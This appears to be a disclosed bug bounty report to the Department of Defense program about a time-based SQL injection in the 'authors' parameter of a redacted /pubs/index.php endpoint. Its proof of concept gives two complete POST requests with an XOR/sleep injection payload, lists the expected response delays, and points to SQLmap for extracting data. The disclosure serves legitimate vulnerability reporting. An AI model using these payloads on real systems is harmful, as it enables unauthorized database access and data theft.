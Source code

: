 # Time based SQL injection at████████

## Report Details
- **Report ID**: 2312334
- **URL**: https://hackerone.com/reports/2312334
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-11T14:48:29.230Z
- **Disclosed**: 2024-01-26T18:56:56.156Z

## Reporter
- **Username**: aziz0x48
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

While doing test on██████, I’ve found that the endpoint at /pubs/index.php is vulnerable with SQL injection vulnerability.
Vulnerable parameters are 'years' and 'authors'

## References
Please check screenshots attached.

## Impact

Time based SQL injection can lead to the exfiltration of sensitive data from the database.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
## POC

Make the following POST request to /pubs/index.php

```
POST /pubs/index.php HTTP/1.1
Host:██████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://███████
Referer: https://███████/pubs/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

years=2017&authors=Hurlburt'XOR(if(now()=sysdate(),sleep(2*2),0))OR'
```

Notice that the response time will be 4 seconds.


```
POST /pubs/index.php HTTP/1.1
Host:█████████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://████████
Referer: https://████/pubs/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

years=2017&authors=Hurlburt'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

Notice that the response time will be 25 seconds.

This can be further exploited manually or using automated tools such as SQLmap to get data from the DB, but I will stop here for this report.

Thanks.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
